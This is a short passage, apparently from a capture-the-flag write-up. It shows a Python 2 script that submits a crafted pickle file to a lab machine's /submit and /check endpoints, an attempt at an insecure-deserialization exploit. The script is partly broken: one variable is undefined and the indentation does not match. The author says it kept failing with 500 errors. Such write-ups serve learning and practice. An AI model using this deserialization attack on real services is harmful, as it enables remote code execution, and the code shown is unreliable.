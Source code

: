 ```py
char = 'Homerp1'

with open("backup.p", "r") as file2:
	quote = pickle_data
if not char or not quote:
	print "Error 1"
	sys.exit()
elif not any(c.lower() in char.lower() for c in WHITELIST):
	print "Error 2"
	sys.exit()
data = open("backup.p", "rb").read()
if not "p1" in data:
	print "Error 3"
	sys.exit()

else:
	p_id = md5(char + quote).hexdigest()
  print p_id

# REQUESTS TO DO THE SUBMIT AND CHECK PART

import requests

url = "http://10.10.10.70/submit"
data= {
	'character':char,
	'quote':quote
    }
if "Success" in requests.post(url, data=data).text:
	print "Success posting data: {}, {}".format(char, quote)

url = "http://10.10.10.70/check"
data= {
        'id': p_id
    }
print requests.post(url, data=data).text
```

This automated EVERYTHING!!

However, it wouldn't work and the 500 Internal Error kept appearing... I was starting to get confused, this was the only method to exploit pickle I had found and it was not working...

*Script not working*
